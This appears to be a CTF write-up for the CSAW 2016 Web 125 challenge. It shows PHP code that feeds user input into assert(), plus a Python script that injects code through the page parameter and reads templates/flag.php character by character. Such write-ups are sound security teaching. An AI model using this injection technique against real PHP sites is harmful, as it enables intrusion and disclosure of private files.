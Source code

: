 ```yaml
---
layout: post
title:  "CSAW CTF 16 Web 125 writeup"
image: ''
date:   2016-09-16 00:06:31
tags:
- Assert(), CSAW
description: 'Web 125 - Assert() Vulnerability'
categories:
- CSAW CTF, CTF, Assert Vulnerability
---
```


In this challenge, we were given a web page showing `Welcome to my website! I wrote it myself from scratch!.` Next was to find the vulnerability in the page.

`Challenge URL: http://web.chal.csaw.io:8000/`

Obviously the first thing was to look at the source code and found something commented out
`<br /><!--<li ><a href="?page=flag">My secrets</a></li>`

My next aim was to get that using LFI, but it failed as they were filtering off and produced a message Detected hacking attempt! I was sure that there was a `git` page as he had mentioned it in the about page which would get me the full source code. I was successfully able to find the source code which was

```
#A part of the source code
<?php

if (isset($_GET['page'])) {
$page = $_GET['page'];
} else {
$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

I was able to understand that it was using `assert()` which was vulnerable to LFI. I wrote a little script:

```
<br />
#Author Gokul Krishna
#teambi0s

import base64
import string
import requests

url = "http://web.chal.csaw.io:8000/"

def check(payload):
r = requests.get(url, params={'page':payload})
return "Detected" not in r.text
base = '\', "asdf") === false && %s && strpos(\'1'

def get_len(path):
for i in range(2048):
print "Length upto %d" % i
s = 'strlen(file_get_contents("%s")) == %d' % (path, i)
if check(base % s):
print "Found Length %d" % i
return i

def get_str(path):
length = get_len(path)
s = "<?php"
while len(s) < length:
for c in string.printable:
t_s = s + c
payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (path, len(t_s), base64.b64encode(t_s))
if check(base % payload):
s += c
print c
print s.replace("\n", " ")
return s

print get_str("templates/flag.php");
```

Flag is: `flag{3vald_@ss3rt_1s_best_a$$ert}`

